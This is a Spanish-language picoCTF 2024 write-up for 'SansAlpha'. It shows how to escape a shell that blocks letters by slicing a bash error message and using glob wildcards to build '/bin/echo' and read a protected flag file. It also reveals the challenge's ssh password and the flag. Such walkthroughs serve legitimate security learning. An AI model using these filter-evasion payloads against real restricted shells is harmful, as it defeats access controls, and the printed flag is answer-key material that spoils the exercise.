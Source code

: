 # SansAlpha

## Descripcion

The Multiverse is within your grasp! Unfortunately, the server that contains the secrets of the multiverse is in a universe where keyboards only have numbers and (most) symbols.`ssh -p 63732 ctf-player@mimas.picoctf.net`Use password: `6dd28e9b`

## Solucion

Nos conectamos al reto con las credenciales que nos proporcionan usando ssh.

```sh
┌──(chris㉿Chris)-[~]
└─$ ssh -p 63732 ctf-player@mimas.picoctf.net
The authenticity of host '[mimas.picoctf.net]:63732 ([52.15.88.75]:63732)' can't be established.
ED25519 key fingerprint is SHA256:n/hDgUtuTTF85Id7k2fxmHvb6rrLrACHNM6xLZ46AqQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[mimas.picoctf.net]:63732' (ED25519) to the list of known hosts.
ctf-player@mimas.picoctf.net's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1016-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

SansAlpha$ 
```

Podemos ver que no podemos usar ningun comando como lo hariamos normalmente con otra shell:
```sh
SansAlpha$ ls
SansAlpha: Unknown character detected
SansAlpha$ cd
SansAlpha: Unknown character detected
```
Por lo tanto, vamos a investigar lo que nos dicen las pistas: `Where can you get some letters?`.
Buscando un poco, la unica forma que tenemos de movernos es usando `wildcards, numeros yusando redireccionadores`. Pero la forma de hacer esto, es algo bastante complejo que requiere conocimiento sobre la shell.

Para comenzar debemos de causar un error con la shell que nos proporcionan, esto lo podemos hacer simplemente escribiendo escribiendo algun caracter permitido como lo puede ser un numero:
```sh
SansAlpha$ 5
bash: 5: command not found
```

Ahora, en la shell, hay algo llamado redireccionadores de salida, lo cual nos permite mandar la salida de algun comando a algun lugar que nosotros queramos, como lo puede ser a otro comando o un archivo, en este caso, la vamos a usar para guardar el mensaje de salida del error `stderr` y despues crear un payload. Lo hacemos de la siguiente manera:

```sh
_1=`5 2>&1`
```

Aquí lo que estamos haciendo es crear una variable llamada `'_1'` a la cual le vamos a guardar el valor de salida del comando, es decir:
`bash: 5: command not found`, la forma en lo que lo conseguimos es la siguiente: le decimos que intente ejecutar el comando `'5'`, comando que no existe y por lo cual genera un mensaje de error,  entonces ahora con `'2>&1'` le estamos diciendo que tome esa salida que produce y la almacene en la variable que creamos.

Esto lo que nos permite es ahora poder formar comando sin necesidad de escribir letras, por ejemplo, podemos formar el comando cat:

```sh
#interpretamos la salida como si fuera un arreglo
#bash: 5: command not found
#${_1:9:1} -> caracter c
#${_1:1:1} -> caracter a
#${_1:19:1} -> caracter t
#${_1:2:1} -> caracter s

#podemos formar el comando /usr/bin/cat usando lo que tenemos y wildcards asi:
/?${_1:2:1}?/???/??${_1:19:1}
#el ? es un comodin que nos permite representar cualquier caracter, util para buscar patrones. 
```

Sin embargo si lo intentamos, parece ser que no funciona, nos desconecta del reto:
```sh
SansAlpha$ /?${_1:2:1}?/???/??${_1:19:1}
E: Invalid operation /usr/bin/cat

SansAlpha$ 
Traceback (most recent call last):
  File "/usr/local/sansalpha.py", line 12, in <module>
    if user_in[-1] != "\n":
IndexError: string index out of range
Connection to mimas.picoctf.net closed.
```

Pero podemos ver que funciona correctamente a pesar de que nos saca.

Es importante conocer donde esta la flag, para lo cual vamos a usar nuevamente comodines. En este caso usaremos el `'*'`:
Vamos a hacer una búsqueda de patrones y ver que coincidencias encontramos, en este caso el patrón que funciono es el siguiente: `./*/*`
Lo que hace es que a partir del directorio actual (`./`), va y busca cualquier coincidencia, es decir cualquier nombre de archivo o carpeta (`'*'`)  a ver si encuentra algo, en este caso si nada mas lo ejecutamos una vez, podemos ver que nos regresa el nombre de un directorio:

```sh
SansAlpha$ ./*
bash: ./blargh: Is a directory
```
Y si vamos a ver que hay dentro de este, repitiendo la búsqueda una vez mas, encontramos el archivo de a flag;
```
SansAlpha$ ./*/*
bash: ./blargh/flag.txt: Permission denied
```
Esto quiere decir que el nombre del archivo representado con comodines es el siguiente:
`./*/????.???`.

Ahora, puesto que usar cat no es una opción, vamos a intentar con echo que también nos permite leer archivos si lo hacemos de la siguiente forma:
`echo "$(<filename)"`
Entonces hay que formar un payload para echo, como el que formamos para cat, en este caso solo tenemos la letra 'c' y la 'o', pero vamos a ver si se puede:
```sh
#/bin/echo
/???/?${_1:9:1}?${_1:10:1}
```

Si lo probamos vemos que funciona:
```
SansAlpha$ /???/?${_1:9:1}?${_1:10:1}



```

Entonces ahora solo hay que leer la flag que ya sabemos como podemos acceder a ella:
```sh
/???/?${_1:9:1}?${_1:10:1} "$(<./*/????.???)"
```

Y así obtenemos la flag:
```sh
return 0 picoCTF{7h15_mu171v3r53_15_m4dn355_145256ec}
```

## Notas adicionales

## Referencias

https://tldp.org/LDP/GNU-Linux-Tools-Summary/html/x11655.htm
https://github.com/noamgariani11/picoCTF-2024-Writeup/blob/main/General%20Skills/SansAlpha.md
